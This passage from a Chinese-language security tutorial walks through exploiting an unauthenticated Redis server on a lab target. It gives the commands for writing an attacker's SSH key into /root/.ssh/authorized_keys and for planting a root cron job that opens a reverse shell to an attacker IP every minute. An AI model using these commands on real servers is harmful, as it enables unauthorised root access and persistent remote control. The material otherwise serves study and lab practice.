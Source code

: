 ![image-20241031135530361](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241031135530361.png)
  4\.设置redis的路径为/root/.ssh/，保存文件名为authorized\_keys，这一步是为了将公钥保存在文件中。



```
# 设置路径
config set dir /root/.ssh/

# 文件名必须是authorized_keys
config set dbfilename "authorized_keys"

save

```

![image-20241031135625675](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241031135625675.png)
  5\.最后ssh远程连接靶机即可（私钥登录）



```
ssh 靶机ip -p 端口 -i ~/.ssh/id_rsa

```

![image-20241031140410689](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241031140410689.png)
#### 写定时任务


 原理？


  连接服务端的redis，写入反弹shell的计划任务


 利用：


* 用户定时任务位置：




| 操作系统 | 定时任务位置 |  |
| --- | --- | --- |
| Debian ubuntu | /var/spool/cron/crontabs/用户名 |  |
| centos redhat | /var/spool/cron/用户名 |  |



```
# 连接靶机redis
redis-cli -h 靶机ip -p 6379

# 设置路径（这个目录具体根据操作系统来定）
config set dir /var/spool/cron

# 覆盖root定时任务，便于以root身份执行计划任务
config set dbfilename root

# 写入反弹shell（每分钟由root用户执行一次）
set xxx "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/攻击机ip/6666 0>&1\n\n"

save

```

